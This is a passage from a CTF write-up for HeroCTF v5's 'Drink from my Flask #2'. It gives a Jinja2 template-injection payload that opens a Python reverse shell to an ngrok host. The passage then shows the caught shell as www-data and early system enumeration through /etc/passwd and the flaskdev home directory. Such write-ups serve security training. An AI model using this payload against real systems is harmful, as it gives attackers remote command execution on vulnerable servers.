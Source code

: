 - Send the reverse shell payload:

```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(\"python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\\\"0.tcp.ap.ngrok.io\\\",15516));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\\"/bin/bash\\\")'\").read() \}\}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513222858.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513222905.png)

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.13|22:28:03(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47154
www-data@flask:~/app$ whoami;hostname;id
whoami;hostname;id
www-data
flask
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@flask:~/app$ 
```

I'm `www-data`!

Now, let's enumerate the system!

**System users:**
```shell
www-data@flask:~/app$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
flaskdev:x:1000:1000:,,,:/home/flaskdev:/bin/bash
www-data@flask:~/app$ ls -lah /home
ls -lah /home
total 12K
drwxr-xr-x 1 root     root     4.0K May 13 03:17 .
drwxr-xr-x 1 root     root     4.0K May 13 14:13 ..
drwxr-xr-x 1 flaskdev flaskdev 4.0K May 13 03:17 flaskdev
```

- System user: `flaskdev`

**Let's dig deeper into that user!**
```shell
www-data@flask:~/app$ ls -lah /home/flaskdev/
ls -lah /home/flaskdev/
total 28K
drwxr-xr-x 1 flaskdev flaskdev 4.0K May 13 03:17 .
drwxr-xr-x 1 root     root     4.0K May 13 03:17 ..
lrwxrwxrwx 1 root     root        9 May 13 03:17 .bash_history -> /dev/null
-rw-r--r-- 1 flaskdev flaskdev  220 May 13 03:17 .bash_logout
-rw-r--r-- 1 flaskdev flaskdev 3.7K May 13 03:17 .bashrc
-rw-r--r-- 1 flaskdev flaskdev  807 May 13 03:17 .profile
-r-------- 1 flaskdev flaskdev   31 May 13 03:17 flag.txt
-rwxr-xr-x 1 root     root      219 May 12 10:17 reboot_flask.sh
```
